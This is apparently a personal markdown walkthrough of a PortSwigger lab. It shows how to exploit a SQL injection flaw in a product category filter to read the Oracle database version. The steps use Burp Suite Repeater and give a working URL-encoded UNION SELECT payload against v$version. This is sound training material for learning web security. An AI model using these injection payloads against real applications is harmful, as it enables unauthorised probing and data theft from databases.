



# SQL injection attack, querying the database type and version on Oracle

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

#oracle_database 
___
To get oracle database version
```sql
SELECT banner FROM v$version  
SELECT version FROM v$instance
' UNION SELECT banner FROM v$version--
```

step 1

select any category then go to
burpsuite => proxy => http history => click on =>`/filter?category=Gifts` => send to repeater



step 2

`' UNION SELECT NULL,banner FROM v$version--`  => URL Encoded(`'+UNION+SELECT+NULL,banner+FROM+v$version--`)
add `'+UNION+SELECT+NULL,banner+FROM+v$version--`
`/filter?category=Gifts'+UNION+SELECT+NULL,banner+FROM+v$version--`



step 3

to solve the lab
add `'+UNION+SELECT+NULL,banner+FROM+v$version--` at the end of URL

